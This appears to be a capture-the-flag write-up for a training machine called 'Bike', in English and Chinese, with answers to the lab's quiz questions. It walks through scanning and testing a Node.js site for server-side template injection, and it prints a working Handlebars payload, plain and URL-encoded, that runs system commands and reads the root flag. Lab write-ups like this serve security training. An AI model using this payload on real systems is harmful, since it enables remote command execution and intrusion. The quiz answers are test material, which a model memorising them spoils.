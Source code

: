 <center>Bike</center>



[toc]







## Bike

> bike







### 1. task

1. What TCP ports does nmap identify as open? Answer with a list of ports seperated by commas with no spaces, from low to high.

```shell
22,80
```

2. What software is running the service listening on the http/web port identified in the first question?

```shelll
node.js
```

3. What is the name of the Web Framework according to Wappalyzer?

```shell
Express
```

4. What is the name of the vulnerability we test for by submitting {{7*7}}?

````shell
Server Side Tempulate Injection
````

5. What is the templating engine being used within Node.JS?

```shell
handlebars
```

6. What is the name of the BurpSuite tab used to encode text?

```shell
Decoder
```

7. In order to send special characters in our payload in an HTTP request, we'll encode the payload. What type of encoding do we use?

```shell
url
```

8. When we use a payload from HackTricks to try to run system commands, we get an error back. What is "not defined" in the response error?

```shell
require
```

9. What variable is traditionally the name of the top-level scope in the browser context, but not in Node.JS?

```shell
global
```

10. By exploiting this vulnerability, we get command execution as the user that the webserver is running as. What is the name of that user?

```shell
root
```





### 2. SSTI

> 服务端模板引擎注入。









### 3. flag

> 获取flag

```shell
nmap -sV -sC IP
```

![image-20241202104500679](./assets/image-20241202104500679.png)

> wappalyzer 识别

![image-20241202104550013](./assets/image-20241202104550013.png)

**在E-mail输入框输入SSIT探测字符`{{7\*7}}`，页面报错，报错信息显示使用handlebars模版引擎，并且在/root/Backend目录下运行。**

![image-20241202104949721](./assets/image-20241202104949721.png)

> 执行payload.

```python
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

**其中 `execsync('----')` 部分为我们需要更改执行的命令**

```shell
{{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
```

>  **对payload进行URL编码：**

```shell
%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%70%72%6f%63%65%73%73%2e%6d%61%69%6e%4d%6f%64%75%6c%65%2e%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%53%79%6e%63%28%27%77%68%6f%61%6d%69%27%29%3b%22%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%7b%7b%2f%77%69%74%68%7d%7d
```

**使用burpsuite抓包，更改email参数为URL编码下的payload，命令执行成功**

![image-20241202105910069](./assets/image-20241202105910069.png)

> **执行命令查看root目录 `ls /root/flag.txt`，对payload进行url编码**

```python
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('cat /root/flag.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

![image-20241202110056645](./assets/image-20241202110056645.png)



